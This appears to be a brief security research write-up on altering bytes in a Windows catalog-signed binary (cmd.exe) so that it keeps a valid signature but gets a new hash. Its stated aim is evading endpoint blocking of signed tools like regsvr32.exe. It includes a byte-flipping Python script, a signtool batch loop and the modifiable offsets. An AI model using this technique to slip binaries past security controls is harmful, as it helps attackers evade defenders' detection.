 # InvalidSign

The idea was to bypass endpoint solution that block known "malicious" signed application such as "regsvr32.exe". I wanted to find a way to get a valid signed file with a different hash.

# The analysis

I may have misundertood the output after further analysis but the result remains the same.

I used `signtool verify /v /a cmd.exe`

```
C:\signcheck>signtool verify /a /v cmd.exe

Verifying: cmd.exe
File is signed in catalog: C:\windows\system32\CatRoot\{F750E6C3-38EE-11D1-85E5-
00C04FC295EE}\Microsoft-Windows-Foundation-Package~31bf3856ad364e35~amd64~~6.1.7
601.17514.cat
Hash of file (sha1): 7EB22CBAA74B208DF433C70C06A99280036A52F3

Signing Certificate Chain:
    Issued to: Microsoft Root Certificate Authority
    Issued by: Microsoft Root Certificate Authority
    Expires:   Sun May 09 19:28:13 2021
    SHA1 hash: CDD4EEAE6000AC7F40C3802C171E30148030C072
```

I thought the "Hash of file" was the SHA1 of cmd.exe based on the output (7EB22CBAA74B208DF433C70C06A99280036A52F3)

Further check revealed that the SHA1 of cmd.exe file was

```
$ sha1sum.exe cmd.exe
0f3c4ff28f354aede202d54e9d1c5529a3bf87d8 *cmd.exe
```

Interesting same file 2 different hashes.

# Generating test files

At this point I suspected that the signature may not include all sections of the file.

I wrote a simple python script to generate test files.

```
import sys

orig = list(open(sys.argv[1], "rb").read())

i = 0
while i < len(orig):
	current = list(orig)
	current[i] = chr(ord(current[i]) ^ 0xde)
	path = "%d.exe" % i
	
	output = "".join(str(e) for e in current)
	open(path, "wb").write(output)
	i += 1
	
print "done"
```

`python generate.py cmd.exe` was then executed and generated more 300 Gb of new files.

# Final step 

We now need to validate each files we created to see if they pass the signature test.

A simple batch file can to that

```
FOR /L %%A IN (1,1,10000) DO (
	signtool verify /v /a %%A.exe
)
```

The binary 330.exe passed the signature check. in this case the file is different since the offset 330 was modified.

```
C:\signcheck>signtool verify /a /v 330.exe

Verifying: 330.exe
File is signed in catalog: C:\windows\system32\CatRoot\{F750E6C3-38EE-11D1-85E5-
00C04FC295EE}\Microsoft-Windows-Foundation-Package~31bf3856ad364e35~amd64~~6.1.7
601.17514.cat
Hash of file (sha1): 7EB22CBAA74B208DF433C70C06A99280036A52F3
```

```
$ sha1sum.exe 330.exe
4c05efb9d67291febe44f8c661db55a1ec06bc41 *330.exe

$ sha1sum cmd.exe
0f3c4ff28f354aede202d54e9d1c5529a3bf87d8 *cmd.exe
```

I have not finished testing all of the samples but so far I've found that the following bytes can be modified `330, 331, 408 - 412` for cmd.exe.
